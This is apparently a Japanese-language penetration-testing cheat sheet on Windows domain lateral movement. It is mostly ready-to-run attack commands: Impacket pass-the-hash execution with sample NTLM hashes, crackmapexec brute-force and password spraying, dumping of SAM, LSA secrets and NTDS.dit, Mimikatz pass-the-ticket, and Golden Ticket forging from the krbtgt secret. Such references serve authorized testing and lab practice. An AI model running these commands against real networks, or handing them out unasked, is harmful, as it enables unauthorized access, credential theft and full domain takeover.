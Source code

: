 ## 目次

1. [Impacket](#impacket)
- [psexec](#psexec)
- [smbexec](#smbexec)
- [wmiexec](#wmiexec)
- [atexec](#atexec)
2. [winrs](#winrs)
3. [crackmapexec](#crackmapexec)
- [基本コマンド](#crackmapexec-基本コマンド)
- [モジュール](#crackmapexec-モジュール)
4. [Pass the ticket](#pass-the-ticket)
5. [Golden Ticket](#golden-ticket)

## impacket

ここでは、主に資格情報やハッシュを用いてリモートでコマンドを実行するためのツールについて説明します。

### psexec

`psexec`は、管理者権限を持つユーザーがリモートシステムでコマンドを実行できるツールです。

```bash
psexec.py <domain>/<user>:<password1>@<IP>
```

ユーザーはリモートシステムの管理共有（例：C$）への書き込みアクセス権を持っている必要があり、その後、セッションを取得できます。

#### ハッシュ使用例

パスワードの代わりにNTLMハッシュを使用する場合、以下のようにコマンドを実行します。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

他にも、以下のように実行できます。

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@jeeves.htb cmd.exe
```

### smbexec

`smbexec`は、`psexec`に似ていますが、リモートでコマンドを実行する際にSMB（Server Message Block）プロトコルを使用します。

```bash
smbexec.py <domain>/<user>:<password1>@<IP>
```

また、以下のようにハッシュを使用することもできます。

```bash
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### wmiexec

`wmiexec`は、Windows Management Instrumentation（WMI）を使用してリモートシステムでコマンドを実行するツールです。

```bash
wmiexec.py <domain>/<user>:<password1>@<IP>
```

ハッシュを使用する場合は、以下のように実行します。

```bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

### atexec

`atexec`は、Windowsのタスクスケジューラを利用してコマンドをリモート実行するツールです。ハッシュを使用して実行する場合は、以下のコマンドを使います。

```bash
atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
```

---

## winrs

`winrs`は、Windows Remote Shellを使用してリモートシステムでコマンドを実行するためのツールです。以下のコマンドで、ユーザーがシステムにアクセス可能か確認し、その後リバースシェルを実行できます。

```bash
winrs -r:<computername> -u:<user> -p:<password> "command"
```

このコマンドは、Windowsセッション内で実行します。

---

## crackmapexec

`crackmapexec`は、ネットワーク上の複数のホストに対して様々な攻撃を自動化するためのツールです。

### crackmapexec 基本コマンド

以下は、`crackmapexec`の基本的な使用例です。

```bash
crackmapexec smb jeeves.htb -u Administrator -p passwords
```

`crackmapexec`は、`smb`, `winrm`, `mssql`, `ldap`, `ftp`, `ssh`, `rdp`などのサービスに対して利用可能です。次に、SMBサービスに対してブルートフォース攻撃を行うコマンド例を示します。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # "Pwned"と表示されます
```

以下は、SMBに対するパスワードスプレー攻撃の例です。

```bash
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
```

その他の有用なコマンド例：

```bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares # 共有フォルダのリストを表示
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks # ディスク情報の取得
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users # DCのユーザー情報を取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions # アクティブセッションの確認
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol # パスワードポリシーの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam # SAMハッシュの取得
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa # LSAシークレットのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds # NTDS.ditファイルのダンプ
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} # 特定のグループに属するユーザーの列挙
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' # コマンドの実行, "-x"はcmd, "-X"はpowershellコマンド用
```

### crackmapexec モジュール

`crackmapexec`には、様々なモジュールがあります。以下は、モジュールに関するコマンド例です。

```bash
crackmapexec smb -L # モジュールのリストを表示
crackmapexec smb -M mimikatx --options # モジュールの必要なオプションを表示
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz # デフォルトコマンドの実行
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' # 特定のコマンドを実行
```

---

## Pass the ticket

`Pass the ticket`攻撃は、Mimikatzを用いてKerberosチケットを取得し、それを他のシステムで使用する攻撃です。

```bash
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```

---

## Golden Ticket

`Golden Ticket`は、ドメインコントローラ上の`krbtgt`アカウントの秘密情報を使用して、任意のユーザーとして認証を行う攻撃です。

```bash
.\mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:
```
